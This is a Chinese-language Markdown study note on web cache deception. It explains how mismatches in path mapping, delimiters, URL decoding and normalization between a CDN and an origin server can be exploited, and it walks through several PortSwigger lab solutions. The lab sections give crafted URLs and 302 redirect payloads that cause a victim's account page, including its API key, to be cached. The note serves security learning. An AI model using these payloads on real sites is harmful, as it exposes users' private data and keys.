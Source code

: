 ```yaml
---
title: Web cache deception
description: Web cache deception
---
```


## Path mapping discrepancies

假設有以下網址

```
https://www.google.com/user/123/profile.json
```

傳統的 Web Server 在處理 URL Path 時，會映射到實體的 File Path

但 Restful API 可能是這樣註冊的

```js
app.get("/user/:id", getUserProfile);
```

所以對於 Restful API

```
https://www.google.com/user/123/script.js
https://www.google.com/user/123/style.css
```

可能都是進到同樣的 route => 回傳 userProfile

攻擊者可以構造以上 URL，讓 CDN 把包含 userProfile 的 `.js`, `.css` 快取

## Lab: Exploiting path mapping for web cache deception

| Dimension | Description                                                                              |
| --------- | ---------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/web-cache-deception#path-mapping-discrepancies      |
| Lab       | https://portswigger.net/web-security/web-cache-deception/lab-wcd-exploiting-path-mapping |

這題的 /my-account 頁面含有 API Key，嘗試讓 /my-account 頁面也被快取

```js
https://0a8200f303c345b2825b92e200480080.web-security-academy.net/my-account/hello.js
```

有正確被快取

```
age: 0
cache-control: max-age=30
x-cache: miss
```

在 exploit-server 構造

```
HTTP/1.1 302 Found
Location: https://0a8200f303c345b2825b92e200480080.web-security-academy.net/my-account/hello.js
```

Deliver exploit to victim 之後，在登入的情況訪問 /my-account/hello.js，就會吃到 victim 的快取

1. 未登入情況，沒有 cookie.session，訪問 /my-account/hello.js 會被 302 導回 /login，所以這題要在登入情況訪問
2. 確保 /hello.js 這把 cache key 沒有被快取過，victim 點擊以後快取 30 秒，並且在 30 秒內盡快訪問 /my-account/hello.js

## Delimiter discrepancies

https://portswigger.net/web-security/web-cache-deception#delimiter-discrepancies

利用 CDN 跟 Origin Server 處理 delimiter 的差異，假設有以下 path

```
/profile;foo.css
```

- Origin Server 將 `;` 視為 delimiter，實際是 routing 到 `/profile`
- CDN 將整段 `/profile;foo.css` 視為一個 css 檔案，故成功把 Origin Server 回傳的 `/profile` 內容寫入快取

[Web cache deception lab delimiter list](https://portswigger.net/web-security/web-cache-deception/wcd-lab-delimiter-list)

## Lab: Exploiting path delimiters for web cache deception

| Dimension | Description                                                                                 |
| --------- | ------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/web-cache-deception#delimiter-discrepancies            |
| Lab       | https://portswigger.net/web-security/web-cache-deception/lab-wcd-exploiting-path-delimiters |

在 exploit-server 構造

```
HTTP/1.1 302 Found
Location: https://0a1800a904a8983480ef1ca400770036.web-security-academy.net/my-account;hello.js
```

Deliver exploit to victim 之後，在登入的情況訪問 /my-account;hello.js，就會吃到 victim 的快取

## Delimiter decoding discrepancies

https://portswigger.net/web-security/web-cache-deception#delimiter-decoding-discrepancies

利用 CDN 跟 Origin Server 處理 URL decode 的差異，假設有以下 path

```
/profile%23style.css
```

Origin Server 將 `%23` decode 以後變成 `#`，實際是 routing 到 `/profile`
CDN 將整段 `/profile%23style.css` 視為一個 css 檔案，故成功把 Origin Server 回傳的 `/profile` 內容寫入快取

這概念在 [API Testing](./api-testing.md#server-side-parameter-pollution-in-the-query-string) 跟 [SSRF](./ssrf.md#lab-ssrf-with-whitelist-based-input-filter) 都有運用到，算是很實用的技巧

另外還有一個 CDN 跟 Origin Server 的實作差異，假設有以下 path

```
/profile%3fstyle.css
```

- CDN 收到後，決定快取 css，但 forward 給 Origin Server 前，先把 URL decode，變成 `/profile?style.css`
- Origin Server 收到後，routing 到 `/profile`，登入的人類訪問這個 URL 就會中招

## Normalization discrepancies

https://portswigger.net/web-security/web-cache-deception#normalization-discrepancies

利用 CDN 跟 Origin Server 處理 URL normalization 的差異，假設有以下 path

```
/static/..%2fprofile
```

- Origin Server 將其 normalize 為 `/profile`
- CDN 沒有進行 normalize，並且 `/static/` 路徑底下會快取

## Detecting normalization by the origin server

比較以下兩個 non-cacheable + non-idempotent 請求的 Response 是否有差異

```
POST /profile
POST /aaa/..%2fprofile
```

有差異 => 代表 Origin Server 沒有 normalization

## Detecting normalization by the cache server

先找到一個有被快取的 resource，假設是

```
assets/js/script.js
```

嘗試

```
/aaa/..%2fassets/js/stockCheck.js
```

若 Response 一樣是吃到快取的，代表 cache server 有 normalization

## Lab: Exploiting origin server normalization for web cache deception

| Dimension | Description                                                                                             |
| --------- | ------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/web-cache-deception#exploiting-normalization-by-the-origin-server  |
| Lab       | https://portswigger.net/web-security/web-cache-deception/lab-wcd-exploiting-origin-server-normalization |

觀察 `/resources` 底下的 js,css 有快取，嘗試

```
/resources/..%2fmy-account
```

觀察到有被快取

```
age: 0
cache-control:max-age=30
x-cache: miss
```

在 exploit-server 構造

```
HTTP/1.1 302 Found
Location: https://0a1a00fc0390a75d8284293700b800c9.web-security-academy.net/resources/..%2fmy-account
```

Deliver exploit to victim 之後，在登入的情況訪問 /resources/..%2fmy-account，就會吃到 victim 的快取

## Lab: Exploiting cache server normalization for web cache deception

| Dimension | Description                                                                                            |
| --------- | ------------------------------------------------------------------------------------------------------ |
| Document  | https://portswigger.net/web-security/web-cache-deception#exploiting-normalization-by-the-cache-server  |
| Lab       | https://portswigger.net/web-security/web-cache-deception/lab-wcd-exploiting-cache-server-normalization |

## 參考資料

- https://portswigger.net/web-security/web-cache-deception
